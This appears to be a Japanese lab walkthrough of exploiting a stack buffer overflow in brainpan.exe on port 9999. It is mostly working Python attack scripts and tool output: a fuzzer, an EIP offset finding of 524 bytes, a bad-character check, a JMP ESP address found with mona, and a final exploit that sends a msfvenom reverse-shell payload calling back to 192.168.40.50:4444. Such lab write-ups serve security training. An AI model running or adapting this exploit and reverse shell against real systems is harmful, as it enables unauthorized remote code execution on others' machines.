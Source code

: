 

### ファジング

### 動作確認

`nc`で接続したらおｋ、そのあとパスワードを聞かれるっぽい
パスワードが脆弱？
```sh
nc 192.168.40.47 9999
>> hello
```

![[./_pic/Pasted image 20240803224154.png]]
![[./_pic/Pasted image 20240803224247.png]]

#### 脆弱性確認
```python
import socket
import sys
import time

buffer = b"A" * 100
while True:  
  try:  
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.settimeout(5)
    s.connect(('192.168.40.47',9999))
    s.send((buffer))  
    s.close()  
    time.sleep(1)  
    buffer = buffer + b"A"*100
  except Exception as e:
    print(e)  
    print("Fuzzing has crashed at {0} bytes".format(str(len(buffer))))
    sys.exit()

```
![[./_pic/Pasted image 20240803223938.png]]
![[./_pic/Pasted image 20240803223848.png]]

`EIP`も`41414141`で上書きできてるから成功してそう

#### EIP上書きのバイト数を確認


![[./_pic/Pasted image 20240803224452.png]]

```
[+]send buffer
[*]Input EIP value >> 35724134
[+] Exact match at offset 524
[+] EIP is 525 ~ 528 bytes
```
![[./_pic/Pasted image 20240803230025.png]]

`EIP`を上書きできる位置は `525`~`528`byteであるとわかった


### BadCharチェック

```python
import socket
import sys

def generate_badchars():
    badchars  = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
    badchars += b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    badchars += b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
    badchars += b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
    badchars += b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
    badchars += b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
    badchars += b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
    badchars += b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
    return badchars

buffer = b"A"*524
buffer += b"B" * 4
buffer += generate_badchars()

try:  
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(5)
  s.connect(('192.168.40.47',9999))
  s.send(buffer)  
  s.close()  

except Exception as e:
  print(e)  
  sys.exit()
```

FDが右下に来てるからBadCharはなしでよさげ

![[./_pic/Pasted image 20240803232114.png]]

---

### とび先の確定

```
└─$ /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > JMP ESP
00000000  FFE4              jmp esp
nasm > 
```

まず、`JMP ESP`がありそうなモジュールを探す。
```sh
!mona modules
```
![[./_pic/Pasted image 20240803234748.png]]
この中で、ASLR無効になっているのは `brainpan.exe`のみ。
`JMP ESP`は`brainpan.exe`から探す。
```sh
!mona find -s '\xff\xe4' -m brainpan.exe
```
![[./_pic/Pasted image 20240803234934.png]]

`0x311712f3`が`JMP ESP`であることがわかった。
`EIP`には`f3 12 17 31`を渡せばいい

### Exploit

```python
import socket
import sys
import subprocess

buf = subprocess.check_output(['msfvenom -p windows/shell_reverse_tcp LHOST=192.168.40.50 LPORT=4444 -f raw -a x86 -b "\\x00"'],shell=True)
nop = b"\x90" * 32 
jmp_addr = b"\xf3\x12\x17\x31"
buffer = b"A"*524
payload = buffer + jmp_addr + nop + buf

try:  
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(5)
  s.connect(('192.168.40.47',9999))
  s.send(payload)  
  s.close()  

except Exception as e:
  print(e)  
  sys.exit()

```
![[./_pic/Pasted image 20240804000247.png]]

![[./_pic/Pasted image 20240804000229.png]]

![[./_pic/Pasted image 20240804000217.png]]